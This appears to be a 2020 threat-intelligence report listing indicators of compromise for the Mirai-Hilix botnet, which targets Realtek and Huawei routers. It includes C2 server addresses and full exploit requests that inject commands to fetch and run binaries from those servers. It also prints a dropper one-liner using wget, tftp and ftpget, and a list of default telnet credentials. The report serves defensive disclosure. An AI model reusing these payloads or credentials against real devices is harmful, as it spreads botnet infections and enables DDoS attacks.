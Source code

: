 # Threat Report: 2020-05-14: Linux/Mirai-Hilix (w/New TABLE encoder) aims Realtek & Huawei routers


## Key Intelligence
* Date: 2020-05-14
* Threat Level: 3 (Low)
* Tags: tlp:white, circl:incident-classification="malware", malware_classification:malware-category="Botnet", Mirai

---

## Indicators of Compromise (IOCs)
### Internal reference
* link: https://www.virustotal.com/gui/file/a7f3670b9720fd2092d0cd0f52b46fecd431d442a9bff6ec8839e854147b7c53/community — Technical announcement and analysis report
* link: https://old.reddit.com/r/LinuxMalware/comments/gj1x02/linuxmirai_hilix/ — Technical announcement and analysis report
* link: https://imgur.com/a/lWbs6T1 — Technical announcement and analysis report
* link: https://twitter.com/malwaremustd1e/status/1260582039503417344 — Technical announcement and analysis report

### Network activity
* comment: attack_method_greip
attack_method_greeth
attack_method_std
attack_method_tcpsyn
attack_method_tcpack
attack_method_tcpstomp
attack_method_tcpxmas
attack_method_udpgeneric
attack_method_udpvse
attack_method_udpdns
attack_method_udpplain — Linux/Mirai Hilix DDoS attack methods

### Payload delivery
* filename: Hilix.sh — Linux/Mirai Hilix loader script filename
* filename: Hilix1.sh — Linux/Mirai Hilix loader script filename
* filename: Hilix2.sh — Linux/Mirai Hilix loader script filename
* filename: Hilix3.sh — Linux/Mirai Hilix loader script filename
* filename: Hilix4.sh — Linux/Mirai Hilix loader script filename
* ip-src: 142.93.217.221 — Linux/Mirai Hilix's C2 servers, payload servers & Infection scanner servers (LRAB base), see reference.
* ip-src: 159.203.44.33 — Linux/Mirai Hilix's C2 servers, payload servers & Infection scanner servers (LRAB base), see reference.
* ip-src: 194.180.224.124 — Linux/Mirai Hilix's C2 servers, payload servers & Infection scanner servers (LRAB base), see reference.
* ip-src: 194.180.224.150 — Linux/Mirai Hilix's C2 servers, payload servers & Infection scanner servers (LRAB base), see reference.
* comment: POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */ï¼Š\r\nAuthorization: Digest username="dslf-config", realm="HuaweiHomeGateway", nonce="88645cefb1f9ede0e336e3569d75ee30", uri="/ctrlt/DeviceUpgrade_1", response="3612f843a42db38f48f59d2a3597e19c", algorithm="MD5", qop="auth", nc=00000001, cnonce="248d1a2560100669"\r\n\r\n<?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1"><NewStatusURL>$(/bin/busybox wget -g 159.203.44.33 -l /tmp/binary -r /bins/Hilix.mips; /bin/busybox chmod 777 * /tmp/binary; /tmp/binary huawei)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n

POST /picdesc.xml HTTP/1.1\r\nHost: 127.0.0.1:52869\r\nContent-Length: 630\r\nAccept-Encoding: gzip, deflate\r\nSOAPAction: urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping\r\nAccept: */*\r\nUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)\r\nConnection: keep-alive\r\n\r\n<?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"><NewRemoteHost></NewRemoteHost><NewExternalPort>47451</NewExternalPort><NewProtocol>TCP</NewProtocol><NewInternalPort>44382</NewInternalPort><NewInternalClient>`cd /var; rm -rf nig; wget http://159.203.44.33/bins/Hilix.mips -O nig; chmod 777 nig; ./nig realtek`</NewInternalClient><NewEnabled>1</NewEnabled><NewPortMappingDescription>syncthing</NewPortMappingDescription><NewLeaseDuration>0</NewLeaseDuration></u:AddPortMapping></s:Body></s:Envelope>\r\n\r\n


POST /wanipcn.xml HTTP/1.1\r\nHost: 127.0.0.1:52869\r\nContent-Length: 630\r\nAccept-Encoding: gzip, deflate\r\nSOAPAction: urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping\r\nAccept: */*\r\nUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)\r\nConnection: keep-alive\r\n\r\n<?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"><NewRemoteHost></NewRemoteHost><NewExternalPort>47451</NewExternalPort><NewProtocol>TCP</NewProtocol><NewInternalPort>44382</NewInternalPort><NewInternalClient>`cd /var; rm -rf nig; wget http://159.203.44.33/bins/Hilix.mips -O nig; chmod 777 nig; ./nig realtek`</NewInternalClient><NewEnabled>1</NewEnabled><NewPortMappingDescription>syncthing</NewPortMappingDescription><NewLeaseDuration>0</NewLeaseDuration></u:AddPortMapping></s:Body></s:Envelope>\r\n\r\n — Linux/Mirai Hilix loader's infection script injection (Realtek, Huawei routers vulnerabilities)

### Payload installation
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* md5: <md5> — Linux/Mirai Hilix new encoder hashes
* comment: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://194.180.224.124/Hilix.sh; curl -O http://194.180.224.124/Hilix.sh; chmod 777 Hilix.sh; sh Hilix.sh; tftp 194.180.224.124 -c get Hilix3.sh; chmod 777 Hilix3.sh; sh Hilix3.sh; tftp -r Hilix2.sh -g 194.180.224.124; chmod 777 Hilix2.sh; sh Hilix2.sh; ftpget -v -u anonymous -p anonymous -P 21 194.180.224.124 Hilix1.sh Hilix1.sh; sh Hilix1.sh; rm -rf Hilix.sh Hilix3.sh Hilix2.sh Hilix1.sh; rm -rf *; cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://194.180.224.124/bins/Hilix.x86 -O /tmp/Hilix; chmod +x /tmp/Hilix; /tmp/Hilix sbot.x86 — Linux/Mirai Hilix loader script injection (bruteforce default password)

### Targeting data
* comment: "root","xc3511"
"root","xc3518"
"root","xc3515"
"vstarcam2015","20150602"
"admin","admin"
"root","zte9x15"
"root","vizxv"
"root","admin"
"root","vertex25ektks123"
"admin","vertex25ektks123"
"root","Zte521"
"default"
"default","OxhlwSG8"
"default","S2fGqNFs"
"default","lJwpbo6"
"default","antslq"
"guest","xc3511"
"admin","aquario"
"support","support"
"admin","password"
"user","user"
"admin","admin1234"
"admin","1111"
"guest","guest"
"guest","12345"
"admin","1234"
"admin","ipcam_rt5350"
"root","ipcam_rt5350"
"admin","ho4uku6at"
"admin","kont2004"
"admin","Win1doW$ "
"root","hunt5759"
"admin","COadmin123"
"admin","ZmqVfoSIP"
"root","3ep5w2u" — Linux/Mirai Hilix targeted products (telnet default password)
